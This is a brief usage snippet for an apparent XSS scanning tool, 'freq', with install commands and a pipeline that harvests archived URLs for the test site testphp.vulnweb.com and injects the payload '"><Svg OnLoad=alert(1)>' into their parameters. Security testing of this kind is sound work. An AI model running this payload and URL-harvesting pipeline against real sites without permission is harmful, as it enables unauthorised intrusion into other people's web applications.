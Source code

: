 how to use:

go install github.com/coffinsp/freq@latest

cd go/bin

sudo mv freq /usr/local/bin

echo testphp.vulnweb.com | waybackurls | gf xss | urldedupe | qsreplace '"><Svg OnLoad=alert(1)>' | freq
